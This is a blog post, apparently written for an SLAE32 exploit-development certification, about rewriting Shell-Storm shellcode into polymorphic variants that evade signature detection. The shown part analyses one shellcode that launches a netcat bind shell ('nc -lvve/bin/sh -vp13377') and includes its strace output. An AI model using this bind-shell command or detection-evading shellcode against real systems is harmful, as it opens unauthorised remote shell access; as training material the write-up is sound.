 ```yaml
---
layout: post
title: "SLAE32: Creating polymorphic versions of existing shellcode"
categories: blog
excerpt:
comments: true
share: true
tags: [assembly, x86, pentesting, hacking, exploit-development, shellcode, slae32]
image:
  feature:
date: 2018-01-21
---
```

---
### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #6

---

## Description
* Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger than 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Shellcode 1: shellcode-804.php
Location: [http://shell-storm.org/shellcode/files/shellcode-804.php](http://shell-storm.org/shellcode/files/shellcode-804.php)<br/>

### What it does
If we run the shellcode with strace we can see the command it ends up executing. In the case of this executable it runs "/bin//////nc -lvve/bin/sh -vp13377". All of the text for these commands are pushed onto the stack and the registers are loaded up with pointers to the stack with their locations.
```
[sengen@manjaro-x86 assignment6]$ strace -e execve ./shellcode-804
execve("./shellcode-804", ["./shellcode-804"], 0xbfa21108 /* 55 vars */) = 0
execve("/bin//////nc", ["/bin//////nc", "-lvve/bin/sh", "-vp13377\1"], NULL) = 0
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: CB02 CE67 7AE9 8A2B 64F0 6EA5 82B2 DE8B 869D 365C
NCAT DEBUG: Initialized fdlist with 103 maxfds
Ncat: Listening on :::13377
NCAT DEBUG: Added fd 3 to list, nfds 1, maxfd 3
Ncat: Listening on 0.0.0.0:13377
NCAT DEBUG: Added fd 4 to list, nfds 2, maxfd 4
NCAT DEBUG: Added fd 0 to list, nfds 3, maxfd 4
NCAT DEBUG: Initialized fdlist with 100 maxfds
NCAT DEBUG: selecting, fdmax 4
```
